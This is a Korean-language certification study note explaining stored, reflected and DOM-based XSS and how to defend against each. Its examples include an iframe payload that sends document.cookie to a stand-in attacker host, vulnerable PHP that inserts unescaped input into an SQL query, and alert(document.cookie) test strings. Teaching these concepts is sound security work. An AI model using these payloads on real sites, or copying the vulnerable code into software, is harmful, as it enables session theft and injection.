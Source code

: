 ```yaml
---
title: 정보보안 - XSS(Cross Site Script)
date: '2021-07-05 19:00:00'
tags:
- 정보보안기사
- 어플리케이션
related: true
categories:
- IS_Certification
toc: true
---
```


# XSS(Cross Site Script)

- 개요
    + SQL Injection : 입력값 필터링이 되지 않아 발생
    + XSS (Cross Site Script) : 입력값 필터링이 되지 않아 발생
    + Form 입력 양식에 악의적인 스크립트를 작성하여 입력 혹은 URL 입력창에 스크립트를 작성하여 입력
        * 웹서버에 입력
        * Javascript, ActiveX, VBscript, Flash파일 (swf) 등 삽입
    + 공격자에게 개인정보, 쿠키정보 등을 전송, 피해자 PC에 악성코드 설치
    + 다운로드 받은 html 문서 안에 javascript 등의 악성 스크립트가 포함
    + 브라우저에서 자동 실행됨
    + Client 가 희생자가 됨
- 과정
    + 공격자가 XSS 를 서버에 삽입 (XSS 취약점이 존재하는 서버)
    + 희생자(클라이언트)가 서버의 XSS 에 접근
    + 희생자가 서버의 XSS 스크립트가 포함된 문서를 다운로드
    + 희생자의 PC에서 스크립트가 실행됨
    + 악성코드가 설치되거나 정보가 공격자에게 전달됨
- 방식
    + Stored XSS (저장형 XSS)
        * 개요
            - 가장 일반적인 형태의 XSS
            - 공격자가 게시판, 자료실 등에 스크립트를 입력하여 저장 (DB 저장)
            - 희생자가 게시물을 열람하는 순간 악성 스크립트가 클라이언트에서 실행됨
            - 서버 취약점 점검이 필요
        * 공격방식
            - 주로 `<iframe>` 태그를 이용함
                + 최근에는 `<iframe>` 태그를 사용자제
                + `<iframe width=0 height=0 src="javascript:document.location.href='http://192.168.10.1/abc/a.php?cookie=document.cookie'"></iframe>`
                    * 공격자의 주소로 cookie 값을 전송
            ```
                $content = "<iframe width=0 height=0 src="javascript:document.location.href='http://192.168.10.1/abc/a.php?cookie=document.cookie'"></iframe>";
                $query = "insert into $bbs(id, name, subject, content)
                values ('$id', '$name', '$subject', '$content')";
            ```
        * 대응방법
            - XSS 공격은 HTML, 스크립트 태그를 사용
            - HTML 특수문자
                + htmlspecialchars() 함수 이용 (PHP)
                    * `$content = htmlspecialchars($content,ENT_QUOTES);`
                        - ENT_QUOTES : `'`, `"` 모두 변환
                        - 사용하지 않을 경우 : `"` 만 변환
                    * 함수 사용시 태그 내용이 그대로 출력됨
                    * HTML 특수문자를 escape 처리하여 일반문자 (HTML Entity) 로 치환
                        - `<` : `&lt;`
                        - `>` : `&gt;`
                        - `&` : `&amp;`
                        - `"` : `&quot;`
                        - `'` : `&#039;` : `&#x27;` (16진수)
                        - `(` : `&#40;` : `&#x28;` (16진수)
                        - `)` : `&#41;` : `&#x29;` (16진수)
                        - `#` : `&#x23;` (16진수)
                        - `/` : `&#x2F;` (16진수)
                        - 소스보기 시 일반문자로 보이게 됨 (`&lt;` 등)
                + strip_tags() 이용
                    * 스크립트 태그를 제거
    + Reflected XSS (반사형 XSS)
        * 개요
            - 악성스크립트를 서버 DB에 저장하지 않음
            - 악성스크립트를 직접 클릭하도록 유도
                + 공격자가 악성스크립트 링크를 포함한 메일 전송
                + 희생자는 메일 링크 클릭
                    * `url.php?q=스크립트` : 희생자가 알아볼 수 없도록 처리
                + 희생자가 링크를 클릭하여 웹서버에 요청
                + 서버는 스크립트의 내용을 처리하지 않고 그대로 응답 (서버 처리 스크립트 X)
                    * 일반적으로 서버에 검색내용을 입력
                        - 입력값 예 : `www.test.com/search/?q=<script>alert(document.cookie)</script>`
                        - 검색 결과 있는 경우
                            + 결과값을 사용자에게 전달
                        - 검색 결과 없는 경우  
                            + 사용자 입력값을 그대로 HTML 에 포함하여 응답
                            + 요청값을 서버에서 반사시킴 
                            + 응답 예 : 
                            ```
                                <h2><span class=''>Search Result</span><br/>
                                Search:<script>alert(document.cookie)</script>
                                </body>"
                            ```
                + 희생자는 공격자에게 자신의 정보 전달
                    * 응답페이지가 희생자에게 전달되면서 스크립트 실행
        * 공격방식
            - 공격자는 XSS 취약점이 있는 사이트를 발견
            - 중요 정보를 획득할 수 있는 공격용 악성 URL을 생성
            - 이 URL을 이메일을 이용하여 배포
            - 희생자가 URL을 클릭시 악성스크립트가 희생자에 반사되어 공격을 당하게 됨
        * 대응방법
            - XSS 취약점이 있는 사이트에서 특수문자를 일반문자 (HTML Entity) 로 치환
    + DOM based XSS
        * 개요
            - DOM (Document Object Model) : HTML/XML 문서 (계층구조)
                + W3C 에서 정의 
                + HTML/XML 문서의 접근방법을 표준으로 정의하는 모델
            - HTML
                ```
                    <html>
                        <head>
                            <title></title>
                        </head>
                        <body>
                            <h2></h2>
                        </body>
                    </html>
                ```
            - XML
                ```
                    <book>
                        <subject></subject>
                        <writer></writer>
                    </book>
                ```
            - DOM based XSS
                + Stored XSS, Reflected XSS 와 달리 서버의 응답과 관계없음
                + 피해자의 브라우저에서 발생
                + 피해자의 브라우저가 DOM 구문분석을 할 때 악성스크립트 실행
                + Javascript 가 DOM 내용을 변화시킴
        * 공격방식
            - 공격자가 희생자에게 메일링크(악성스크립트 포함)가 포함된 메일을 보냄
            - 희생자가 링크를 클릭하면 웹서버에 요청
            - 웹서버가 응답 (악성스크립트 미포함)
            - 희생자의 요청에 포함된 URL 악성스크립트가 그대로 남아있음
            - URL 쿼리스트링의 파라미터를 응답페이지에 있는 DOM을 이용해서 동적으로 악성스크립트를 실행
                ```
                    <HTML>
                        <HEAD><TITLE>Welcome</TITLE></HEAD>
                        <script>
                            var pos = document.URL.indexOf("name=")+5;
                            document.write(document.URL.substring(pos,document.URL.length))
                            /*
                            http://www.abc.com/page.php?name=kim
                            http://www.abc.com/page.php?name=<script>alert()</script>
                            */
                        </script>
                        <body>
                            안녕하세요
                            아래페이지를 참고하세요
                            링크페이지 <!-- 악성코드 url -->
                        </body>
                    </HTML>
                ```
                + 이메일 링크 등에 악성스크립트를 포함한 url 전송
                + url 클릭 시 document.write 함수가 있는 서버로 연결
                + 클라이언트 브라우저에서 DOM 에 악성코드를 추가
                + 브라우저에서 악성스크립트 실행
